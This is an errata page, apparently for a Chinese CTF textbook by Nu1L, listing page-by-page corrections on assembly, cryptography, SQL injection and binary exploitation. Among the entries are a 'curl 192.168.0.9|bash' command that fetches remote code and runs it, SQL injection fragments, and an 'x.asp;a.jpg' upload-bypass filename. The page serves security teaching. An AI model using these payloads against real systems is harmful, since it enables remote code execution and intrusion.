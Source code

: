 # 勘误表

非常感谢各位热心读者对我们书籍的关注, 在书籍出版后, 进行阅读时, 由读者或我们发现了一些错误, 在此页面进行集中更正, 如果读者发现本书部分内容存在问题, 可以向 ***book#nu1l.com*** 发送邮件, 我们将在确认后在此页面即时更新, 并及时交由出版社处理.

## 图片模糊说明

书中确实有黑色背景图片导致模糊不清，我们对此深感歉意，目前已在自查，在第3次印刷中，争取全部替换。

## 勘误表

*版次: 2020年9月第1版 印次: 2020年9月第1次印刷*

| 序号 | 页码   | 修改描述                                                                                      |
| -- | ---- | -----------------------------------------------------------------------------------------                                                       |
| 1  | 目录 | 从“CTF线下赛”页码开始出现错误，需要重新按照实际页数编写                                    |
| 2  | 235页 | 图5-1-1中的“BX AH AL”那3个格子（第2行）改为“`BX BH BL`”                                                  |
| 3  | 237页 | 表5-1-3中所有的“无符号数”与“有符号数”`对调`，“cmp a，b条件”列"jb/jnae/jc"行“a&gt;b”改为"`a<b`", "ja/jnbe"行"a&lt;b"改为"`a>b`"   |
| 4  | 450页 | 1⊕1=1改为`1⊕1=0`, 1+1(mod 2)=1改为`1+1(mod 2)=0`                                                  |
| 5  | 545页 | 10.2.5小节最后一句，“在构造Gadget候重写serialVersionUID有变化的类”修改为“在构造Gadget`时`重写serialVersionUID有变化的类”    |
| 6  | 234页 | 第四自然段中“......都是由COFF（Common File Format）格式发展......”，括号中的英文全称改为“`Common Object File Format`” |
| 7  | 234页 | 倒数第四行，“在指令中显式可见的寄存器”，改为“在`上下文`中显式可见的寄存器”                                                    |
| 8  | 238页 | 第9~10行Mircrosoft x64位调用约定处：“依次将前4个参数放入RDI、RSI、RDX、RCX”改为“依次（从左至右）将前4个参数放入`RCX、RDX、R8、R9`”   |

*版次: 2020年9月第1版 印次: 2020年9月第2次印刷*

| 序号 | 页码   | 修改描述                                                                                      |
| -- | ---- | -----------------------------------------------------------------------------------------                                                       |
| 9  | 24页 | sqln1.php源码中，ROM改为`FROM`                                    |
| 10 | 73页 | scoat错误，应为`socat`                                                 |
| 11 | 339页 | 第339页，ASLR部分第二行 “降低攻击者对程序内存结构的了解程序”，删除最后的“`程序`” 二字   |
| 12 | 446页 |表7-3-2右边一列，表7-3-3右边两列是排版错误，应去掉这几列                                                  |
| 13 | 33页 |url中的aaaaaaaaa\应为`aaaaaaaaa'`                                                  |
| 14 | 19页 |SELECT title,content FROM wp_news WHERE id='1'#'”中的1应为`2`                                            |
| 15 | 361页 |Fast Bin Attack 节小标题序号 6.3.6.2 应为 `6.6.3.2`                                                 |
| 16 | 35页 |四级标题错误，应为`1.3.1.2`，`1.3.1.3`                                                 |
| 17 | 317页 |base block改为`basic block`（base block也有说法，但普遍都是basic block）                                             |
| 18 | 495页 | 在 lsb_encode 函数中 rgb[i] = rgb[i] & 0xfe + int(msg[count]) & 1 需要改为 `rgb[i] = (rgb[i] & 0xfe) + (int(msg[count]) & 1)` |
| 19 | 29页 | 29页下方的代码中, 第五行(注释将空格替换为空一行), 应改为 $id = str_replace(" ", "", `$id`); |
| 20 | 57页 | 第一个图1-3-22为`1-3-21` |
| 21 | 18页 | 最后一自然段中 sql2.php?id=3-2 应改为 `sql2.php?id=3-1` |
| 22 | 102页 | #generate \`curl 192.168.0.9\|sh\` 应改为 ``#generate `curl 192.168.0.9\|bash` `` |
| 23 | 341页 | 计算机中4种溢出情况中, 最后一种应为`有符号下溢` |
| 24 | 130页 | x.asp,a.jpg应为 `x.asp;a.jpg` |
| 25 | 461页 | 方程组右侧的4个1应为 `1010`，解的结果的0110应该为 `1010` |
| 26 | 467页 | 使用了相同的n,不同的模数e1 应为 `使用了相同的模数n，不同的指数e1` |

## 特别感谢

* [Prowes5](https://prowes5.github.io/): 指出目录页码印刷错误.
* [hustcw](https://blog.wh98.me/): 指出序号2中的错误.
* [流浪者](#): 指出序号9中的错误.
* [ycdxsb](http://blog.ycdxsb.cn/): 指出序号11中的错误.
* [十三年](#): 指出序号14中的错误.
* [Hh0](https://www.cnblogs.com/wrnan/): 指出序号18中的错误.
* [Adbase](#): 指出序号21中的错误.
* [kawhi](#):  指出序号22中的错误.
* [Brucy](https://blog.csdn.net/qq_41252520):  指出序号25中的错误.
* [NWPU-feng](#):  指出序号24中的错误.
